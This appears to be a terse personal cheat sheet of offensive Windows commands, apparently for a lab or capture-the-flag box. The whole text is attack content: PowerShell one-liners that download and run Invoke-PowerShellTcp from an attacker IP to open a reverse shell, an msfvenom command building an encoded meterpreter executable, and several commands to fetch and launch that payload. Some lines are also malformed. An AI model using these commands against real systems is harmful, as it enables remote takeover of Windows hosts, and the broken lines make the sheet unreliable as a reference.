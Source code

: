 
create powershell in windows

 powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port_
 
  powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.249.117:8081/psh.ps1');psh.ps1 -Reverse 10.8.249.117 -Port 4443
  
  
  powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.249.117/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -10.8.249.117  -Port 4443
  
  powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.249.117/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.249.117 -Port 4443
  
  Invoke-PowerShellTcp -Reverse -IPAddress 10.8.249.117 -Port 4443
 
 ## create Payload
 
 msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.249.117 LPORT=8081 -f exe -o learn.exe
 
 ## call payload
 
 powershell -c "(New-Object System.Net.WebClient).Downloadfile('http://10.8.249.117:8081/learn3.exe','learn3.exe')"
 
 invoke-webrequest -Uri "http://10.8.249.117:8081/learn.exe"
 

Start-BitsTransfer -Source "http://10.8.249.117:8081/learn.exe" -d "c:\users"

run payload 
powershell -c Start-Process "learn2.exe"

 
 